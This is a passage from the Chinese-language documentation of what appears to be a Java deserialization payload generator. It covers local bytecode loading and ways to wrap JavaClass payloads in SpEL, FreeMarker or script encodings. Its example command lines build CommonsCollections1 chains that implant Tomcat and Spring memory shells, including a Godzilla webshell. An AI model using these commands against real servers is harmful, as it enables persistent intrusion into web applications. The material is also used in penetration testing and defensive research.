 ## LocalLoad 本地字节码加载

`InvokerTransformer` 增强的链子也提供了加载字节码的方式，默认采用 ScriptEngineManager，~~也可以选择（换汤不换药 懒得删了）~~ `org.mozilla.javascript.DefiningClassLoader.defineClass()` 

```
-lf [Default | RHINO]
```

eg. `-g commonscollections1 -e JavaClass -jht MemShell -mw Tomcat -ms Listener -msf Exec -o base64 -lf rhino`

## JavaClass 封装

JavaClass 也可以单独生成，并且提供加密封装

```
-je [Script ｜ SPEL | FreeMarker]
-jme [JDK17]
```

+ `-je` 指定封装方式，支持组合封装 eg. `SPEL,FreeMarker`
+ `-jme` JavaClass 创建增强逻辑，之后考虑是否太麻烦了移除，目前有 SPEL JDK17 封装

eg. `-e JavaClass -jht MemShell -mw Tomcat -ms Listener -msf Exec -je FreeMarker`

eg. 某 FreeMarker 高版本 JDK 环境利用 `-e JavaClass -jht MemShell -mw Spring -ms Interceptor -msf Godzilla -je SPEL,FreeMarker -jme JDK17 -mt raw`

![image-20240504120717253](attachments/image-20240504120717253.png)

# 0x04 Common 模块
